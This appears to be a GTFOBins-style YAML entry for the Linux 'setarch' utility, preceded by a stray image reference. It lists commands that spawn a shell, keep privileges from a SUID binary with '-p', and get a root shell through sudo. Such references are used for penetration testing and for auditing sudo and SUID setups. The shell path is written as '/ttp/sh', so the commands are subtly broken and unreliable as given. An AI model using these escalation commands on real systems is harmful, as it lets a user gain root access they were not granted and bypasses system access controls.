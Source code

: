 ```yaml
---
functions:
  shell:
    - code: setarch $(arch) /ttp/sh
  suid:
    - code: ./setarch $(arch) /ttp/sh -p
  sudo:
    - code: sudo setarch $(arch) /ttp/sh
---
```

